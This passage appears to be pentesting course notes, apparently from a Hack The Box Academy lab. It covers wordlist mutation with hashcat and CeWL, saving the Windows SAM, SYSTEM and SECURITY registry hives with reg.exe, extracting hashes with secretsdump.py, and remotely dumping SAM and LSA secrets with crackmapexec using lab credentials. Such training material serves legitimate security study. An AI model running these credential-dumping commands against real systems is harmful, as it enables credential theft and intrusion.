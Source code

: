 - crackmapexec
- EVil-WinRM
- hydra
- metasploit
- 



hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list

### Generating Wordlists Using CeWL
```
 cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

## Attacking SAM
![SAM Registry](/Assets/SAM%20Registry.png)

### Using reg.exe save to Copy Registry Hives
```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

### Dumping Hashes with Impacket's secretsdump.py
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Remote Dumping & LSA Secrets Considerations
Dumping LSA Secrets Remotely
```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
Dumping SAM Remotely
```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
